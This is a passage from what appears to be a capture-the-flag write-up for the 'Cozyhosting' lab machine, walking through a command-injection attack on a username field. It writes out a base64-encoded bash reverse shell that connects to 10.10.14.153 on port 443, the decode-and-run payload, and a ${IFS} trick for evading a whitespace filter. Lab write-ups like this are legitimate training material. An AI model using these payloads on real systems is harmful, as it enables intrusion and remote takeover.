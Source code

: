 ![Verbose error](/assets/img/Cozyhosting/Cozyhosting_07.png)


So now we need to build up the command we want to run First i'll start with  creating a base64 encoded bash reverse shell

```
echo -n '/bin/bash -l > /dev/tcp/10.10.14.153/443 0<&1 2>&1' | base64

```

this command gave us the following B64 encoded string 
```
L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuMTUzLzQ0MyAwPCYxIDI+JjE=
```

Then using this B64 string our payload will look like this:

```
echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuMTUzLzQ0MyAwPCYxIDI+JjE= | base64 --decode | bash
```

Though when using this payload we'd get another issue. The username can't contain spaces

![No whitespaces](/assets/img/Cozyhosting/Cozyhosting_08.png)


So now we need to change our payload to not have any whitespaces.In bash we can use variables that don't have any value to replace a space. The **IFS** variable is a classic example. So if we were to change all our whitespaces with **${IFS}** it should still work 
